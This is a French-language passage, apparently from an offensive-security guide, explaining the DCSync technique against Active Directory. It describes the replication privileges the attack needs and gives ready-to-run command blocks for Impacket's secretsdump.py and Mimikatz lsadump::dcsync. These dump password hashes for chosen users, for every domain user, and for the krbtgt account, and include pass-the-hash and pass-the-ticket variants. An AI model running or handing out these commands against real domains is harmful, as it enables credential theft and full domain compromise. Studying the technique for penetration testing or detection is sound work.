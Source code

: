 **Mécanisme sous-jacent :**

L'attaque utilise le protocole MS-DRSR (Microsoft Directory Replication Service Remote Protocol) avec la fonction `GetNCChanges` pour simuler la réplication entre contrôleurs de domaine. Cette approche contourne les méthodes traditionnelles d'extraction de NTDS.dit en utilisant les canaux de communication natifs d'Active Directory.

**Prérequis d'autorisation critiques :**

DCSync nécessite des privilèges de réplication spécifiques :

* **"Replicating Directory Changes"** (DS-Replication-Get-Changes)
    
* **"Replicating Directory Changes All"** (DS-Replication-Get-Changes-All)
    
* **"Replicating Directory Changes In Filtered Set"** (optionnel pour les domaines avec RODC)
    

Ces privilèges sont accordés par défaut aux groupes Administrators, Domain Admins, Enterprise Admins, et Domain Controllers.

### Implémentation Pratique avec Impacket

**Techniques d'exécution avancées :**

```bash
# DCSync complet avec secretsdump
secretsdump.py -outputfile 'dcsync_full' DOMAIN/USER:PASSWORD@DC_IP

# DCSync ciblé pour utilisateurs spécifiques
secretsdump.py -just-dc-user Administrator DOMAIN/USER:PASSWORD@DC_IP

# DCSync avec Pass-the-Hash
secretsdump.py -outputfile 'dcsync_pth' -hashes :NT_HASH DOMAIN/USER@DC_IP

# DCSync avec Pass-the-Ticket (Kerberos)
export KRB5CCNAME=ticket.ccache
secretsdump.py -k -no-pass -outputfile 'dcsync_kerberos' @DC_HOST

# DCSync via NTLM relay
secretsdump.py -outputfile 'dcsync_relay' 'DOMAIN/USER@DC_IP' -no-pass -k
```

**Utilisation de Mimikatz pour DCSync :**

```powershell
# DCSync basique pour un utilisateur
lsadump::dcsync /user:Administrator

# DCSync pour tous les utilisateurs du domaine
lsadump::dcsync /domain:corp.local /all /csv

# DCSync avec spécification du contrôleur de domaine
lsadump::dcsync /user:CORP\krbtgt /dc:dc1.corp.local

# DCSync pour extraction du hash KRBTGT uniquement
lsadump::dcsync /user:krbtgt
```
